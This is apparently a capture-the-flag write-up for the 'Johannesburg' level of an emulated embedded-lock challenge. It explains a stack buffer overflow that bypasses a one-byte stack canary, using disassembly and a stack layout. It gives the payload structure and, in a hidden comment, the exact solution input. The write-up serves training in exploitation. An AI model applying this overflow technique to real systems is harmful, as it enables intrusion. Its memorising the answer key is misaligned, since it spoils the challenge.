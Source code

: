 # Johannesburg
> **Vulnerability**: stack buffer overflow  
> **Mitigation**: stack canary  
> similar to [Montevideo](../Montevideo/readme.md)  

## Analysis
### What is different from [Montevideo](../Montevideo)?
`Johannesburg` introduces **stack canary** to prevent stack buffer overflow.

|              | `Montevideo` | `Johannesburg` |
| :----------: | :----------: | :------------: |
|  stack size  |  0x10 bytes  |   0x12 bytes   |
| stack canary |      ✘       |       ✓        |

### How does **stack canary** work?
```asm
452c <login>
452c:  3150 eeff      add	#0xffee, sp
4530:  f140 2000 1100 mov.b	#0x20, 0x11(sp)
...
4578:  f190 2000 1100 cmp.b	#0x20, 0x11(sp)
457e:  0624           jz	$+0xe <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call	#0x45f8 <puts>
4588:  3040 3c44      br	#0x443c <__stop_progExec__>
458c:  3150 1200      add	#0x12, sp
4590:  3041           ret
```
`sp + 11` is the **stack canary** and it is compared with `0x20` at `4578`. If the value is not `0x20`, then it will return from the function `<login>`.

### Stack Layout
|             | `input` start from the top of the stack |
| :---------: | :-------------------------------------: |
|    `sp`     |                (padding)                |
| `sp + 0x2`  |                (padding)                |
| `sp + 0x4`  |                (padding)                |
| `sp + 0x6`  |                (padding)                |
| `sp + 0x8`  |                (padding)                |
| `sp + 0xa`  |                (padding)                |
| `sp + 0xc`  |                (padding)                |
| `sp + 0xe`  |                (padding)                |
| `sp + 0x10` |            (padding) + 0x20             |
| `sp + 0x12` |          **(return address)**           |
| `sp + 0x14` |                 `0x7f`                  |
| `sp + 0x14` |                (garbage)                |

The return address can be overwritten with any address that `call <INT>` and `0x7f` needs to be on the stack s.t. it can trigger the unlock with `INT 0x7f`.

## Exploit
> more details in [Montevideo](../Montevideo/readme.md)

0x11 bytes of padding + 0x20 (stack canary) + 0x2 bytes of address that `call <INT>`, `0x446c` in little endian + 0x2 bytes of `0x7f`

<!-- solution: {'level_id': 9, 'input': '4141414141414141414141414141414141206c447f00;'} -->
